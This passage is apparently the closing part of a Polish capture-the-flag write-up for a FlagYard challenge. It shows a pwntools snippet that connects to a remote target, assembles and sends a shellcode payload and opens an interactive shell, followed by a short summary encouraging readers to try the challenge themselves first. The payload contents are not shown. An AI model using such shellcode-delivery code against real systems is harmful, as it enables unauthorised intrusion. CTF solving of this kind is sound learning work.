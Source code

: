 ```python
    p = remote(ADDRESS,PORT)

#---warning 
#--name of flag probabli will be different
shell=asm(second_payload)
p.send(shell)

p.interactive()
```
# Podsumowanie  
Cóż, kolejne świetne zadanie z FlagYard, którego zabawę wam odrobinę popsułem. 😉 Mam jednak nadzieję, że sięgniecie po tę solucję tylko wtedy, gdy naprawdę utkniecie. Próbowanie samemu to najlepszy sposób na naukę!
{: .text-justify}


